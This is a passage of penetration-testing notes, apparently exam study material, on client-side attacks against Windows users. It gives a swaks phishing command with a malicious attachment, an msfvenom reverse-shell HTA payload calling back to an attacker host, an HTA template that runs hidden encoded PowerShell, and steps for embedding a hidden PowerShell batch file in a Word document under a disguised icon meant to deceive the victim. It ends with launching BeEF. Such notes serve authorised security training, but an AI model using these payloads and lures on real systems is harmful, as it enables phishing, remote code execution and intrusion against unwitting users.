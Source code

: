 ```bash
swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

## HTML Application

Create a payload for an HTA attack

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

```html
<html>
  <head>
    <script>
      var c= 'powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ.....'
      new ActiveXObject('WScript.Shell').Run(c);
    </script>
  </head>
  <body>
    <script>
      self.close();
    </script>
  </body>
</html>
```

## Object Linking and Embedding

`launch.bat`

```bat
START powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBj....
```

Include the above script in a Microsoft Word document:
- Navigate to the **Insert** ribbon, and click the **Object** menu. Choose the **Create from File** tab and select our newly-created batch script, `launch.bat`.
- Check the **Display as icon** check box and choose Change Icon to pick a different icon for it and enter a caption, which is what the victim will see, rather than the actual file name.

Like Microsoft Word, Microsoft Publisher allows embedded objects and ultimately code execution in exactly the same manner, but will not enable **Protected View** for Internet-delivered documents.

# Public Exploits

The **Browser Exploitation Framework (BeEF)** tool focuses on client-side attacks executed within a web browser.

Browse to http://127.0.0.1:3000/ui/panel using the default credentials beef/beef to log in

```bash
beef-xss
```
